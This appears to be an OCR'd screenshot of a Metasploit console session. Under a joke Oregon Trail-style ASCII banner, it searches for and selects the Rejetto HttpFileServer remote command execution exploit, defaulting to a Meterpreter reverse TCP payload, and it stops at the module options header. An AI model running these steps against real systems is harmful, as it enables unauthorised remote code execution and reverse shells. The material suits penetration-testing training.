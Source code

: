 ```
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================      
=====================+--------------------------------+=========================                     
================================================================================                                                                                                                                                            
                                                                                                                      
                     Press ENTER to size up the situation                                                                                                                                                                                   
                                                                                                                      
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%   
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%                         
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%            
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
                                                           
                        Press SPACE BAR to continue
                                                           
                                                           
                                                                                                                      
       =[ metasploit v6.0.46-dev                          ]                                                           
+ -- --=[ 2135 exploits - 1139 auxiliary - 365 post       ] 
+ -- --=[ 594 payloads - 45 encoders - 10 nops            ] 
+ -- --=[ 8 evasion                                       ] 
                                                           
Metasploit tip: Start commands with a space to avoid saving  
them to history
                                                           
msf6 > search httpfile

Matching Modules
================                              

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/rejetto_hfs_exec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
```
